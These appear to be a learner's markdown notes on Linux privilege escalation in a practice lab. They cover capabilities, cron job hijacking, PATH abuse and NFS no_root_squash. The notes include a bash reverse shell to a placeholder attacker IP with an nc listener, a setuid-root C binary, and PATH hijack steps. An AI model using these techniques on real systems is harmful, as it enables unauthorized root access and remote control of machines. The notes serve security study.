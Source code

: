## Privilege Escalation: Capabilities

- `getcap -r / 2>/dev/null` tool to list enabled Capabilities.
- Please note that neither vim or its copy has the SUID bit set.
- GTFObins has a good list of binaries that can be leveraged for PE if we find any set capabilites.

## Privilege Escalation: Cron Jobs

- Cron jobs are used to run scripts or binaries at specific times.
- By default, they run with the privilege of their owners and not the current user.
- `cat /etc/crontab` any user can read the keeping system-wide cron jobs.
- You can create the cron job script if the privilege user deleted the script/Binary file but not remove the entry from the cron table.
- You can create any reverse shell script/binary file to run insted of actual deleated script/program/binary file by the privileged user.
- `touch backup.sh`
```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP addr.>/6666 0>&1 2>&1
```
- `nc -nlvp 6666`

## Privilege Escalation: PATH

- PATH is an environment variable
- In order to run any binary we need to specify the full path also, but if the address of file is specified in PATH variable then we can simpley run the binary by mentioning its name, like how we run some command line tools like ls, cd,....etc
- In order to view the content in PATH variable we need to run `echo $PATH` and the outpur will be something like this `usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin`
- We can even add new path to PATH variable by `export PATH=<new-path>:$PATH`
- Also we need to find a writable paths so run `find / -writable 2>/dev/null`
- or `find / -writable 2>/dev/null |grep usr | cut -d "/" -f 2,3 | sort -u` or `find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
- And also we can use to find SUID file for PE: path `find / -perm -u=s -type f 2>/dev/null`
- In the example I found a location where there's a script when I run its showing that "thm" not found, also it can be run as ROOT
- So I created a binary like `echo "/bin/bash" > thm` and gave executable rights then later added the path where thm located to PATH variable and now when I ran the binary then I got root!

## Privilege Escalation: NFS 

- In order to view the configuration of NFS run `cat /etc/exports` or also we can type `showmount -e <target IP>` on our machine to find the mountable shares.
- In the output look for directories having `no_root_squash`, this means that the particular share is writable, hence we can do something to acquires root!
- Now after getting some directories where we can play around lets navigate to our attacker machine and create a sample directory anywhere like /tmp...etc
- Now we need to mount to the target machine by, `mount -o rw <targetIP>:<share-location> <directory path we created>`, here rw means read, write privileges.
- Now go to the folder we created and create a binary which gives us root on running.
```C
 int main()
 { setgid(0);
   setuid(0);
   system("/bin/bash");
   return 0;
 }   
```
- `gcc nfs.c -o nfs -w`
- `chmod +s nfs`